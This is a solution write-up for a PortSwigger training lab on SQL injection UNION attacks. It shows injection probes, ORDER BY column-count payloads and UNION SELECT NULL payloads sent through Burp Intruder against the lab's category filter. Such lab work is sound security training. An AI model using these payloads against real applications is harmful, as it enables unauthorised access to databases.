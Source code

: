 # [Lab: SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

## Lab

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing an SQL injection UNION attack that returns an additional row containing null values.

## Solutions

1. Detect SQLi:

    - `GET /filter?category=' HTTP/1.1`

    ```http
    HTTP/1.1 500 Internal Server Error
    ```

2. Determining the number of columns using `ORDER BY` and burp's intruder:

    - positions: `GET /filter?category='+ORDER+BY+§1§-- HTTP/1.1`
    - payloads: 1 -> 10
    - result:
      ![1.png](./../img/lab-3-determining-nb-of-cols.png)
    - => 3 columns

3. But this challenges said that: `To solve the lab, determine the number of columns returned by the query by performing an SQL injection UNION attack that returns an additional row containing null values.`

4. Determining the number of columns using `UNION`:

    - `' UNION SELECT NULL--`
    - `' UNION SELECT NULL,NULL--`
    - `' UNION SELECT NULL,NULL,NULL--`
    - etc.

5. using burp's intruder:

    - positions: `GET /filter?category='+UNION+SELECT+NULL§§-- HTTP/1.1`
    - payloads:

      ![payloads.png](./../img/lab-3-payloads.png)

    - result:

      ![result.png](./../img/lab-3-result.png)

    => Solved
